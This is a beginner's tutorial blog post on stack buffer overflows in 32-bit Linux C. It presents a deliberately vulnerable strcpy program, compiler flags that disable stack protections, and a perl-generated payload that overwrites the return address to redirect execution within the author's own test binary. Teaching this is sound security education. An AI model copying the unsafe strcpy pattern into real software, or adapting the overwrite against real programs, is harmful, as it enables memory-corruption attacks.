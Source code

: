 ```yaml
---
title: "Bugger Overglow"
date: 2023-10-08T02:51:50+02:00
draft: false
summary: "Introduction to Buffer Overflow in C"
---
```


# Introduction to Buffer Overflow in C

I'm actually learning `C` language and I want to focus my learning on the exploitation of binaries in C.

In the next posts, I will be trying to explain to you and also to myself the most basic terms and functions in this field.

👉 Main Source: [Linux Exploiting - David Puente Castro](https://0xword.com/es/libros/55-linux-exploiting.html)

🚧 First of all, we must take into account...

- The architecture: `x86 (IA32, x86, x86_32, i386)` or `x64 (AMD64, Intel 64, x86_64)`.

- Storage format: `little endian` or `big endian`

- The operating system.

**All subsequent examples are done in `GNU/Linux x86`.**

In my case, I'm using [Ubuntu Desktop](https://ubuntu.com/download/desktop) from Windows to perform the tests with an `Intel x64 architecture` and `little endian` format.

The best options are to use a [virtual machine](https://www.virtualbox.org/) (I recommend Oracle VM VirtualBox) or a [Docker](https://www.docker.com/) to virtualize the work space.

Pages of interest:
- [Virtual machine tutorial with Ubuntu](https://ubuntu.com/tutorials/how-to-run-ubuntu-desktop-on-a-virtual-machine-using-virtualbox#1-overview)
- [Docker in Visual Studio Code](https://code.visualstudio.com/docs/containers/overview)

## What is a Buffer Overflow?

A buffer overflow is a computer security vulnerability that occurs when a program or process tries to store more data in a buffer (a temporary data storage area) than it can hold. As a result, the extra data can overwrite adjacent memory areas, causing unexpected behaviors in the program, such as crashes, freezes, or even the execution of malicious code.

Buffer overflows are a common cause of security vulnerabilities, especially in programs written in languages like C and C++, which **DO NOT perform automatic boundary checks on arrays**. Attackers can exploit this vulnerability to overwrite the buffer's content with malicious data, such as executable code, leading to arbitrary code execution and compromising the system's security.

Let's take a look into this example from the book:

```c
 1 | #include <string.h>
 2 | #include <stdio.h>
 3 | #include <stdlib.h>
 4 | void func(char *arg)
 5 | {
 6 | 	char name[32];
 7 | 	strcpy(name, arg);
 8 | 	printf("\nWelcome to Linux Exploiting %s\n\n", name);
 9 | }
 10| int main(int argc, char *argv[])
 11| {
 12| 	if (argc != 2) {
 13| 		printf("Usage: %s NAME\n", argv[0]);
 14| 		exit(0);
 15| 	}
 16| 	func(argv[1]);
 17| 	printf("End of program\n\n");
 18| 	return 0;
 19| }
```

In `func() - line 4 to 9`, we are allocating `arg`'s information into `name` with `strcpy(name, arg)` and printing _"Welcome to Linux Exploiting [name]"_ into the standard output. The problem here is that `arg` can be any string of characters entered by the user as we can see in `func(argv[1]) - line 16`.

So, taking into consideration that C doesn't perform automatic boundary checks on arrays, we could overwrite buffer's content like the return of the function.

Let's compile:
```bash
$ gcc -m32 -no-pie -fno-stack-protector -o main main.c
# As I'm using x64, I need to install multilib to compile in x86 (-m32). ALSO, we need to prevent the binary from being placed in any base position (-no-pie) and disable the use of canaries (-fno-stack-protector).
```

If we execute the program...
```bash
$ ./main Laura

Welcome to Linux Exploiting Laura

End of program

```
everything works perfectly BUT, what if we tried with another string:

```bash
$ ./main Lauraaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Welcome to Linux Exploiting Lauraaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Segmentation fault # unexpected behavior
```

`Segmentation fault` is the term when a program tries to access a memory location that it’s not allowed to access. It’s a mechanism provided by the operating system to prevent data corruption and unauthorized access to other programs’ memory spaces.

So, what now?

Let's disassemble the executable and then find the lines that contain the text string `func`.

```bash
$ objdump -d ./main | grep func
080491a6 <func>:
 8049235:       e8 6c ff ff ff          call   80491a6 <func>
```

We can see the beggining of the function `func` in the memory address `080491a6`. What would happen if we exactly overwrote that memory address?

```bash
$ ./main `perl -e 'print "A"x44 . "\xa6\x91\x04\x08"x4'`
# We pass to the program a string of characters generated by Pearl as an argument.

Welcome to Linux Exploiting AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������


Welcome to Linux Exploiting U��S��$�.�����N.


Welcome to Linux Exploiting U��S��$�.�����N.


Welcome to Linux Exploiting


Welcome to Linux Exploiting 

Segmentation fault
```

In short, we have managed to have an unexpected behavior.